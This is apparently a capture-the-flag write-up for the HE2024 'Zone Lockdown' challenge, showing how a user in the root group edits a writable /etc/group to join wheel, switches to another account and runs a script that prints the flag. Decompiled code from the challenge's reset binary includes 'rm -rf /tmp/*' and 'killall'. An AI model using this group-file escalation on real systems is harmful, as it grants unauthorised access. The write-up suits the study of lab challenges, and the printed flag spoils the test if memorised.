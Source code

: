 # [HE2024] Zone Lockdown

We have SSH access to some kind of linux server.

```console
minion$ uname -a
Linux f98d4ed1472a 5.15.0-100-generic #110-Ubuntu SMP Wed Feb 7 13:27:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

We know there are two users: `minion` and `boss`. We know the password for both, but we can only login using `minion`.

We need to execute `/home/boss/lockdown.sh`, but `/home/boss` has `700` permissions, so we need to become the `boss`.

```console
minion$ ls -ld /home/boss
drwx------ 1 boss 1001 4096 Apr 30 22:16 /home/boss
```

However, we cannot login as `boss` through SSH, and `su` isn't working either, even using the correct password.

```console
$ ssh boss@...
boss@...'s password:
Permission denied, please try again.
```

```console
minion$ su boss
Password:
su: Permission denied
```

Time to investigate the server. Is there anything useful anywhere?

```console
minion$ ls -lR /opt/
-rwsr-xr-x 1 root 1001 24328 Mar 12 16:45 reset
```

Yes! After investigating all folders in `/`, we notice a weird executable called `reset` in `/opt/`. It has the `setuid` bit set, meaning it'll execute will root access, since the file belongs to `root`.

Executing this program kills the SSH session, weird:

```console
minion$ /opt/reset
Connection to ... closed by remote host.
```

Let's download the reset executable to analyze this locally. Sadly, `scp` isn't installed, so we're going to `cat` the file and redirect the output.

```bash
ssh minion@... "cat /opt/reset" > reset
```

Decompiling the main function using Ghidra, we get:

```c
main(void)
{
  setuid(0);
  system("cp /etc/group.bak /etc/group");
  system("rm -rf /tmp/*");
  system("killall -u minion");
  return 0;
}
```

Why does this execute resets the `/etc/group` file?

That's how I noticed that `/etc/group` was writable by the `root` group, and our `minion` user belongs to the `root` group.

`/etc/group.bak` is **not** writable, and probably used to restore a clean version of this file after we pwned the server.

```console
minion$ ls -l /etc/group
-rw-rw-r-- 1 root root 473 Apr 30 22:35 /etc/group
minion$ ls -l /etc/group.bak
-rwxr--r-- 1 root root 473 Mar 12 16:45 /etc/group.bak
minion$ groups
minion root
```

Now that we know we can edit the groups, we can do quite a few things, including adding our `minion` user to the `wheel` group. The `wheel` group often allows users to switch to another user, using `su`.

```diff
< wheel:x:10:
> wheel:x:10:minion
```

Now that we're in `wheel`, we can relog to apply changes and switch to `boss`.

```console
minion$ groups
minion root wheel
minion$ su boss
Password:
boss$ cat /home/boss/lockdown.sh
```

```bash
echo "ZONE LOCKDOWN initiated!"
echo ""
echo "RmxhZzogIGhlMjAyNHt6MG5lX2wwY2tkMHduX3N1Y2Mzc3NmdWxseV90cjFnZzNyM2R9" | base64 -d
echo "\n"
echo "ZONE LOCKDOWN completed, good bye."
/opt/reset
echo ""
exit
```

As expected, `/opt/reset` is used to restore the groups after a successful pwn.

Let's execute the lockdown to get the flag.

```console
boss$ ./lockdown.sh
ZONE LOCKDOWN initiated!

Flag:  he2024{z0ne_l0ckd0wn_succ3ssfully_tr1gg3r3d}\n
ZONE LOCKDOWN completed, good bye.
```

